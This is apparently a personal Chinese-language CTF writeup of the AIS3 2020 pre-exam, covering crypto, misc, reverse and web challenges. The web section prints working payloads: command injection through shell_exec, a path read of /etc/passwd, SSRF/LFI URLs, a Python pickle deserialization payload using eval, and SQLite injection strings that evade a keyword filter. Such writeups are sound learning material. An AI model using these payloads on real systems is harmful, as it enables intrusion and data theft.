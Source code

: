 ```yaml
---
title: Ais3_2020_pre_exam_writeup
date: 2020-06-10 11:44:53
tags:
- ais3
- ctf
- writeup
thumbnailImage: https://ais3.org/img/AIS3_LOGO-02.png
thumbnailImagePosition: right
---
```


- 有一些題目跟去年一樣，應該是配合My-first-ctf吧
- 跟去年比起來，我覺得自己成長蠻多的，覺得去年der我是菜雞
- 放一下scoreboard紀錄一下，我是halloworld
	- https://i.imgur.com/YPUe7VZ.jpg

<!-- excerpt -->

# AIS3-2020-pre-exam

## Crypto

- 🦕Brontosaurus
	- [jsfuck](https://blog.techbridge.cc/2016/07/16/javascript-jsfuck-and-aaencode/)
	- 這題很像跟去年一樣，把整體字串顛倒過來拿去chrome的console執行就可以了
	- 有online-tool
		- https://codebeautify.org/reverse-string

- 🦖 T-Rex
	- 這題是程式競賽吧X
	- 就寫腳本
		- https://pastebin.com/2STiQQXv

- 🐙 Octopus
	- 關鍵字是BB84，量子加密
		- https://zh.wikipedia.org/wiki/%E9%87%8F%E5%AD%90%E5%AF%86%E9%91%B0%E5%88%86%E7%99%BC
	- 已知對方的basis與量子偏振，可與自己的相比較，得出共有的key
	- `print(int(bit_stream[:400],2) ^ FLAG)`
		- 又知道key(取了後面400個bit)跟flag做xor的結果，透過XOR的交換率能知道結果
		- [script](https://pastebin.com/JvsHaTW4)
	- 李永樂老師影片蠻淺顯易懂的
		- https://www.youtube.com/watch?v=dgNyGjwwYpk

## misc

- 💤Piquero
	- 點字，工人智慧題目
	- 啾啾鞋的影片有介紹過哦
		- https://www.youtube.com/watch?v=1aop1ursHVE

- 🐥Karuego
	- 加密文件的明文攻擊
	- 參考自(https://blog.csdn.net/hustcw98/article/details/82392993)
	1. 用`binwalk -e`能夠將檔案與圖片切開
	2. 偽造一個壓縮檔，將已知的圖片壓縮(**請利用linux-zip壓縮，windows會爛**)，google能找到
		- https://pm1.narvii.com/6182/3a66fa5887bcb740438f1fb49f78569cb56e9233_hq.jpg
	3. 設定好pkcrack然後破解

- 🌱Soy
	- QR_code修復，點到眼睛脫窗，然後Extract QR Information
	- ref: https://blog.xiafeng2333.top/ctf-13/
	- tool: https://merricx.github.io/qrazybox/
	- 找完der結果
		- ![](https://i.imgur.com/hM1J6Hs.png)

- 👑Saburo
	- 輸入正確字元時間會較高，錯誤則較低
	- 寫腳本爆破，每個字元做五次取平均，pwntools真香，爆了2小時
		- https://pastebin.com/kEzTjP3u

- 👿Shichirou
	- 這題得構造一個tar檔案，tar檔案必須size小於65536
	- 為了讓出來的讓sha1值一樣，必須link-file(從guess.txt連到../flag.txt)by pass，來繞過這段
		```python=
		a = subprocess.check_output(['/usr/bin/sha1sum', 'flag.txt'])
		b = subprocess.check_output(['/usr/bin/sha1sum', os.path.join(outdir, 'guess.txt')])
		```
	- pwntools真香
		- https://pastebin.com/RfJPeLLn
	- [LinuxTool-ln](https://www.opencli.com/linux/ln-create-link-command)

## Reverse

- 🍍TsaiBro
	- 這題也是之前的，打開ida或ghidra，能拿到表與規則
	- 規則則是敲打密碼
		- [tap-code](https://en.wikipedia.org/wiki/Tap_code)

- 🎹Fallen Beat
	- java逆向
	- 利用[jadx-GUI](https://github.com/skylot/jadx/releases)查看邏輯，修改邏輯請用[jbe](https://set.ee/jbe/)
	- 可以發現裡面有`setvalue()`，將MaxCombo跟total改成0，進行patch
		- 拆包
			- `jar -xf  Fallen_Beat.jar`
		- 更新jar裡元素
			- `jar -uf Fallen_Beat.jar Control/GameControl.class`
	- 等三分鐘就有flag，如果是windows的用戶，通常會有解析度導致flag出不來，可以透過patch視窗大小來調整
	- 不過後來想想很像可以直接把生flag那段code拿來執行就好了
	- ref: https://www.talksinfo.com/how-to-edit-class-file-from-a-jar/

- 🧠 Stand up!Brain
	- [brainfuck](https://zh.wikipedia.org/zh-tw/Brainfuck)
	- ida或ghidra理一下邏輯，結果發現裡面有一段brainfuck
	- 然後在路邊撿到一段能翻brainfuck的c_code
		- https://gist.github.com/maxcountryman/1699708


## Web

- 🐿️Squirrel
	- F12看一下，能夠撿到api`https://squirrel.ais3.org/api.php?get=%2Fetc%2Fpasswd`
	- 於是我們拿api的code
		- `?get=./api.php`
	- 然後發現shell_exec，是個command-injection
		- `$output = shell_exec(\"cat '$file'\");\n`
		- `';ls /;'`
	- `5qu1rr3l_15_4_k1nd_0f_b16_r47.txt`
		- `';cat /5qu1rr3l_15_4_k1nd_0f_b16_r47.txt;'`
- 🦈Shark
	- 這題去年出過，SSRF+LFI
	- LFI(file:///)，讀取linux敏感檔案，查看內網ip
		- http://wp.blkstone.me/2018/06/abusing-arbitrary-file-read/#421
	- `https://shark.ais3.org/?path=http://172.22.0.2/flag`

- 🐘Elephant
	- 要先想到`.git`
	- 利用[git-dumper](https://github.com/internetwache/GitTools)把code dump下來
	- 發現source code
		- php-deserialize
		- 利用strcmp的缺陷，去構造陣列比較
			```php=
			<?php
			class User{
			    public $name, $token;
			    function __construct($name, $token) {
			        $this->name = $name;
			        $this->token = $token;
			    }
			    function canReadFlag() {
			        return strcmp($flag, $this->token) == 0;
			    }
			}
			$arr = array();
			$tmp = new User('AAA', $aaa);
			echo base64_encode(serialize($tmp));
			```


- 🐍Snake
	- python pickle的反序列化，一樣構造
	- 參考自: https://hackmd.io/@2KUYNtTcQ7WRyTsBT7oePg/BycZwjKNX#/5/9
	- script
		```py=
		import os
		import pickle
		import base64
		class A(object):
			def __reduce__(self):
				return (eval, ("open('/flag').read()",))
		print(base64.b64encode(pickle.dumps(A())))
		```

- 🦉Owl
	- 登入admin/admin，看source-code有source
		- `<h3 class="text-center text-white pt-5"><a style="color: white" href="/?source">SHOW HINT</a></h3>`
	- sqlite的sqli
	- 過濾方式，把東西寫三次繞過，最後用分號切開語句，後面接註解
		```
        $bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
        $username = str_ireplace($bad, '', $username);
        $username = str_ireplace($bad, '', $username);
        ```
    - payload
    	- 先猜column(發現有3個)
    	```
    	'///*******///uniuniuniononon///******///selselselectectect///******///1///******///,2///******///,3;///******
    	```
    	- 查表，看column
    	```
    	'///*******///uniuniuniononon///******///selselselectectect///******///1///******///,group_concat(sql)///******///,3///******///frfrfromomom///******///sqlite_master;///******
    	```
    	-查garbage，就有flag嘞
    	```
    	'///*******///uniuniuniononon///******///selselselectectect///******///1///******///,group_concat(name||value)///******///,3///******///frfrfromomom///******///garbage;///***
    	```

## Pwn

- 👻 BOF
	- 就buffer-overflow，去年初過